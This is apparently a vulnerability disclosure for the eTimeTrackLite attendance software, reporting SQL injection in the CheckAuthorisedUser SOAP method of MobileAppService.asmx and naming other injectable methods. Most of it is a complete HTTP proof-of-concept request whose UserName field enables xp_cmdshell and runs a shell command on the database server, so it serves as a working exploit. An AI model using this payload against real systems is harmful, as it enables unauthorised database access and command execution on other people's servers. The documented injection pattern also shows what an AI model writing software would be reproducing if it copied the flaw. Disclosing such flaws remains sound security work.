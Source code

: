 eTimeTrackLiteLibrary.Manage.EmployeeManagement.CheckForMigratedToOtherCryptography(ref Employee, ref ErrorObj) : void @06000AB9

Directly splicing SQL

![image-20250516163927636](eTimeTrackLite/image-20250516163927636.png)

poc

```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/CheckAuthorisedUser"
Content-Length: 489
Host: 192.168.1.222:83
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:CheckAuthorisedUser>
         <tem:UserName>';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:UserName>
         <tem:UserPassword>test</tem:UserPassword>
      </tem:CheckAuthorisedUser>
   </soapenv:Body>
</soapenv:Envelope>
```

There are many other SQL injections

MobileAppService.GetEmployeeDetailForQRCode(string) : string @0600000F

![image-20250516174304118](eTimeTrackLite/image-20250516174304118.png)
